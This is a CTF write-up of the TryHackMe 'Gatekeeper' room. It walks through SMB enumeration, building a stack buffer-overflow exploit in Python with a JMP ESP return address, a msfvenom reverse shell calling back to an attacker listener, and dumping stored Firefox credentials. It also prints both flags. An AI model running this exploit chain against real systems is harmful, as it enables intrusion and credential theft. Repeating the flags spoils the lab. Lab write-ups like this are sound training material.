 ```yaml
---
title: Gatekeeper Write-up | TryHackMe
slug: gatekeeper
author: Utkarsh M
date: '2022-06-13'
description: "TryHackMe Gatekeeper walkthrough and solution."
categories:
  - TryHackMe
tags:
  - write up
  - tryhackme
  - ctf
  - hard
  - red team

---
```


![screenshot](/assets/img/thm/gatekeeper/1.png)

Can you get past the gate and through the fire?

---

Running threader3000 scan:

```bash
python threader3000
10.10.160.254
```

![screenshot](/assets/img/thm/gatekeeper/2.png)

Running the suggested nmap scan:

```bash
nmap -p139,135,445,3389,31337,49167,49154,49152,49153,49163,49155 -sV -sC -T4 -Pn -oA 10.10.160.254 10.10.160.254
```

![screenshot](/assets/img/thm/gatekeeper/3.png)

![screenshot](/assets/img/thm/gatekeeper/4.png)

![screenshot](/assets/img/thm/gatekeeper/5.png)

:) Hmm, So many ports.

So we have a smb server at `139/445`, Unknown host with text `Elite` on 31337(upon connecting with netcat gives echo text).

so theres a interesting url in nmap result which we need to find on how to access.

```bash
GET /nice%20ports%2C/Tri%6Eity.txt%2ebak HTTP/1.0
```

checking the smb for a while:

enumerating the directories :)

```shell
smbclient -N -L \\10.10.160.254
```

![screenshot](/assets/img/thm/gatekeeper/6.png)

trying to access Users directory without password:

```shell
smbclient -N //10.10.160.254/Users
```

found `gatekeeper.exe`, downloading it using get:

![screenshot](/assets/img/thm/gatekeeper/7.png)

after downloading gatekeeper. :) turning on windows VM and copying the file there.

launching the program in immunity debugger and testing it for buffer overflows.

First, lets setup mona for easier exploitation:

```shell
!mona config -set workingfolder c:\mona\%p
```

for finding the offset:

lets generate pattern using pattern_create.rb from metasploit and use it as a payload ;-; to find the offset.

```shell
/opt/metasploit-git/tools/exploit/pattern_create.rb -l length
```

The program crashes at length: `200`.

finding the offset using mona:

```shell
!mona findmsp -distance 200
```

Offset:`146`

We need to create a script.

```python
import socket
import struct
TCP_IP = '192.168.122.138'
TCP_PORT = 31337
BUFFER_SIZE = 1024
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((TCP_IP, TCP_PORT))
payload = ""
overflow = "A"*146
retn = "BBBB"
padding = ""#"\x90"*16
msg = overflow + retn + padding + payload +"\n"
s.send(bytes(msg, "latin-1"))
s.close()
print( "done")
```

this will set the retn(EIP) value to `BBBB` (`0x42424242`)

lets check for badchars now.

generate bytearray in mona:

```shell
!mona bytearray -b "\x00"
```

generating ;-; chars using a python script:

```python
for x in range(1, 256):
print("\\x" + "{:02x}".format(x), end='')
print()
```

using it as the payload:

comparing bytes using mona:

```shell
!mona compare -f "c:\mona\gatekeeper\bytearray.bin" -a 007319E4
```

![screenshot](/assets/img/thm/gatekeeper/8.png)

we can see that `\x0a` is a bad character too. generating byte array without it:

```shell
!mona compare -f "c:\mona\gatekeeper\bytearray.bin" -a 007319E4
```

After removing the character from the payload and sending it.

we can compare characters again using mona. Which gives us:

![screenshot](/assets/img/thm/gatekeeper/9.png)

:) So we now have the badchars, lets find JMP ESP instruction that isn’t under ASLR using mona:

```shell
!mona jmp -r esp -cpb "\x00\x0a"
```

![screenshot](/assets/img/thm/gatekeeper/10.png)

changing retn value to `\xc3\x14\x04\x08` in the python script.(little endian, `0x080414c3`)

Lets generate a reverse shell code for x86 windows machine using msfvenom.

![screenshot](/assets/img/thm/gatekeeper/11.png)

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=MY_MACHINE_IP LPORT=4444 EXITFUNC=thread -b "\x00\x0a" -f c
```

using it as a payload and a NOP padding of 16.

setting up a listener :)

```shell
nc -lvnp 4444
```

lets try to gain a reverse shell on our VM:

![screenshot](/assets/img/thm/gatekeeper/12.png)

Hmm :) success. Now lets try it on the tryhackme’s machine.

success:

![screenshot](/assets/img/thm/gatekeeper/13.png)

Getting our first flag:

```
{H4lf_W4y_Th3r3}
```

:) So, We mostly need to gain local privileges to the account Mayor.

lets do some enumeration:

using windows exploit suggester 2.0;

```shell
python2 windows-exploit-suggester.py --database 2022-06-13-mssb.xls --systeminfo mew.txt
```

;-; trying out few exploits:-

![screenshot](/assets/img/thm/gatekeeper/14.png)

Hmm, Tried few others which failed too, :-; including getsystem of meterpreter.(;-; I tried winpeas too which didn’t give me much helpful info)

got a hint from discord to check about firefox creds.

Found this resource about dumping firefox credentials: [link](https://null-byte.wonderhowto.com/how-to/hacking-windows-10-steal-decrypt-passwords-stored-chrome-firefox-remotely-0183600/)

downloading the files as per given in the link and renaming. :) we get some credentials.

![screenshot](/assets/img/thm/gatekeeper/15.png)

We can try to use this to access smb and directly just get the flag. :)

```shell
smbclient //10.10.160.254/Users -U mayor
```

![screenshot](/assets/img/thm/gatekeeper/16.png)

The final flag:

```
{Th3_M4y0r_C0ngr4tul4t3s_U}
```

